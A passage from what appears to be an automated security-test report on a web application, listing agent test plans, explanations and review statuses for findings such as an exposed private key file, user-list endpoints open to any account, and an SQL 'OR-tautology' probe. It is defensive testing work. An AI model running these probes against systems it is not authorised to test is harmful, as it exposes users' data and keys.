An earlier OR-tautology control (steps 6 and 9) returned multiple unrelated customers' orders with masked emails and totals, corroborating the cross-customer data exposure described in the finding.
```

#### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

#### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<details>
<summary>T-034 · variant variant-002: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
not tested: safe mode; every declared variant needs a state change
```

</details>

<a id="details-t-058"></a>
<details>
<summary>T-058: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 3
  path: /encryptionkeys/jwt.pub
  hypothesis: Encryption key file is served to unauthenticated callers identical to signed-in account, and a random
    path differs.
- step: 10
  path: /encryptionkeys/premium.key
  hypothesis: A non-public encryption key file (premium.key) is served to unauthenticated callers identical to a
    signed-in account, while a random path differs.
```

**Test agent's explanation** (not proof)

```text
Unauthenticated GET /encryptionkeys/premium.key, a non-public key file, returned 200 with 50 bytes, identical to the signed-in account-1 answer. A random path next to it returned 404. This addresses QA's public-key objection for the encryptionkeys route. The /support/logs route was not tested.
```

**Other observations** (not verified)

```text
/support/logs/:file was not tested separately
jwt.pub is a public key; the premium.key result is the stronger proof
```

#### Technical QA

clear. 2 technical reviews and 1 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

#### Evidence review

Clear after 1 of 2 correction rounds and 2 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<a id="details-t-060"></a>
<details>
<summary>T-060: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 1
  path: /api/Users
  hypothesis: Any authenticated normal account can GET /api/Users and receive all accounts; the same content without
    credentials is refused.
- step: 6
  path: /api/Users
  hypothesis: Listing all user accounts is an admin-level function; admin gets 200, no credentials get 401, and
    a normal account gets the same full list.
```

**Test agent's explanation** (not proof)

```text
GET /api/Users returned 200 with the full account list (ids, emails, roles) for admin-1 (step 7). The normal account account-1 got the identical body, with the same SHA-256 and length 6911 (step 8). The request with no credentials got 401 (step 9). So any authenticated user can list all accounts.
```

#### Technical QA

clear. 1 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

#### Evidence review

Clear after 1 of 2 correction rounds and 2 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<a id="details-t-069"></a>
<details>
<summary>T-069: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 2
  path: /rest/user/authentication-details
  hypothesis: Any authenticated normal account can read the full user list at /rest/user/authentication-details,
    which should be admin-only.
```

**Test agent's explanation** (not proof)

```text
GET /rest/user/authentication-details returned 200 with the full user list (admin and customer records, role, lastLoginIp, lastLoginTime) to normal account-1. The body is byte-identical (same sha256, 8953 bytes) to the admin-1 reference response. The unauthenticated request got 401. So only token validity gates the endpoint, and any customer can enumerate all accounts.
```

**Other observations** (not verified)

```text
Password fields are masked in the response, but emails, roles and login metadata are exposed.
account-2 and a malformed token were not tested.
```

#### Technical QA

clear. 2 technical reviews and 1 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

#### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<a id="details-t-039"></a>
<details>
<summary>T-039: test plan, the test agent's explanation, evidence review</summary>

**Other observations** (not verified)

```text
Derived request: ALL /encryptionkeys/:file, resolved from the source before the test. Reason: server.ts:278 registers it for a handler of routes/keyServer.ts
```

#### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No proposed conclusion was reviewed.
```

#### Evidence review

Not-reviewed after 0 of 2 correction rounds and 0 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Review not started: no confirmed variant to present.
```

</details>
